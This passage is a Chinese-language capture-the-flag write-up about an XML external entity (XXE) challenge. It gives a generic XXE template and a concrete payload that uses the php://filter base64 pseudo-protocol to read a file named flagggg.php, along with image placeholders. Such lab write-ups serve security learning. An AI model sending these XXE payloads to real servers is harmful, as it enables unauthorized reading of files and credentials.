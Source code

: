 访问查看

![image-20240130140548182](image/image-20240130140548182.png)

发现有各类的配置信息出现，直接利用该文件发送xml语句

```
文件读取的利用和payload非常好理解，即使用file协议读取文件内容，并输出到页面上（有回显的情况）。

<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=读取的文件名" >]>
<root>
<name>&xxe;</name>
</root>
```

这里根据一开始实例的提示，flag在flagggg.php，直接利用伪协议读取该文件

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=flagggg.php" >]>
<root>
<name>&xxe;</name>
</root>
```

![image-20240130141737337](image/image-20240130141737337.png)
